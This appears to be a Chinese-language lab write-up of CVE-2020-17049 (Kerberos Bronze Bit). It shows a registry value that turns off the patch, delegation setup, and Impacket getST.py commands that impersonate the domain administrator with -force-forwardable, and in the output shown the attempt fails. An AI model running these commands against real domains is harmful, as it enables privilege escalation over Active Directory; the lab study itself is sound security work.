



# 一、漏洞原理

# 二、漏洞复现
1、补丁修补版本以及关闭补丁方法

注：文章中的初始部署阶段的系统版本才可使用该方法



修改注册表关闭补丁：

```plain
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Kdc
PerformTicketSignature
REG_DWORD
0
```

参考：[https://support.microsoft.com/en-us/topic/kb4598347-managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049-569d60b7-3267-e2b0-7d9b-e46d770332ab](https://support.microsoft.com/en-us/topic/kb4598347-managing-deployment-of-kerberos-s4u-changes-for-cve-2020-17049-569d60b7-3267-e2b0-7d9b-e46d770332ab)

2、配置委派

给hack用户新增spn（Delegation选项才会出现）

```plain
C:\Users\Administrator>setspn -A test/testspn1.sec.local:80 hack
Checking domain DC=sec,DC=local

Registering ServicePrincipalNames for CN=hack,CN=Users,DC=sec,DC=local
        test/testspn1.sec.local:80
Updated object

C:\Users\Administrator>
```

配置hack用户对cifs/Win2019-DC1.sec.local具有约束性委派



配置administrator用户为“敏感用户，不能被委派”



3、申请委派

在常规命令中，会提示：

```plain
┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/hack:"Az123456@" -spn CIFS/Win2019-DC1.sec.local -impersonate administrator
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KDC_ERR_BADOPTION(KDC cannot accommodate requested option)
[-] Probably SPN is not allowed to delegate by user hack or initial TGT not forwardable

```

添加-force-forwardable参数后

```plain
                                                                                                                                                                                                                                                                                                                                        ┌──(root㉿Kali)-[~]
└─# getST.py -dc-ip 10.10.4.2 sec.local/hack:"Az123456@" -spn CIFS/Win2019-DC1.sec.local -impersonate administrator -force-forwardable
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*]     Forcing the service ticket to be forwardable
[*] Requesting S4U2Proxy
[-] Kerberos SessionError: KRB_AP_ERR_MODIFIED(Message stream modified)

```

注：因安装较新版本，无法复现该环境